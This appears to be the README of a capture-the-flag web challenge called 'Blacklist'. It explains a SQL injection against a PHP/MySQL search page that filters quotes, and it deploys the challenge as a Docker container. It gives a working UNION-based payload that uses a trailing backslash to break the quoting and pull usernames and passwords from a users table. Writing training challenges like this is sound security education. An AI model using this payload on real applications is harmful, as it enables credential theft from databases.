 # Name: Blacklist

## Description

You're a big boy now, you need to find the way without the quotes from philosophy.

Try this one http://141.85.224.118:13000/.

Score: 150

## Vulnerability

SQL Injection - The server does not escape characters before querying the database.
The server filter single quotation marks and double quotation marks.

## Exploit

We can use a payload like this: `and 0 union select 1,username,password from users #\` and the query will be:

```
select * from search_engine where title like 'and 0 union select 1, username,password from users #\' or description like 'and 0 union select 1, username,password from users #\' or link like 'and 0 union select 1,username,password from users #\';
```

Due to the fact that some `'` will be escaped because of `\` the query will be different.

## Environment

Web server with PHP and MYSQL support (deployable as a Docker container using files in `deploy/` folder)

## Deploy

Copy `deploy/` folder and run `make run`.

If you need to update the image and container, remove the old container with `make clean` and update the image (and container) using `make`.

It is not possible to update the container without updating the image first.
